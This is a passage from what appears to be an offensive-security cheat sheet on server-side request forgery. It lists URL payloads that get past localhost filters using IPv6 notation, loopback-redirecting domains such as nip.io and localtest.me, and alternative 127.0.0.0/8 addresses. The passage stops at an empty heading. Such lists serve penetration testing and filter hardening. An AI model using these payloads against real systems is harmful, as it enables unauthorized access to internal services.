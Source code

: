 ### Bypass Localhost with IPv6 Notation

* Using unspecified address in IPv6 `[::]`

    ```powershell
    http://[::]:80/
    ```

* Using IPv6 loopback addres`[0000::1]`

    ```powershell
    http://[0000::1]:80/
    ```

* Using [IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

    ```powershell
    http://[0:0:0:0:0:ffff:127.0.0.1]
    http://[::ffff:127.0.0.1]
    ```

### Bypass Localhost with a Domain Redirect

| Domain                       | Redirect to |
|------------------------------|-------------|
| localtest.me                 | `::1`       |
| localh.st                    | `127.0.0.1` |
| spoofed.[BURP_COLLABORATOR]  | `127.0.0.1` |
| spoofed.redacted.oastify.com | `127.0.0.1` |
| company.127.0.0.1.nip.io     | `127.0.0.1` |

The service `nip.io` is awesome for that, it will convert any ip address as a dns.

```powershell
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
```

### Bypass Localhost with CIDR

The IP range `127.0.0.0/8` in IPv4 is reserved for loopback addresses.

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

If you try to use any address in this range (127.0.0.2, 127.1.1.1, etc.) in a network, it will still resolve to the local machine

### Bypass Using Rare Address

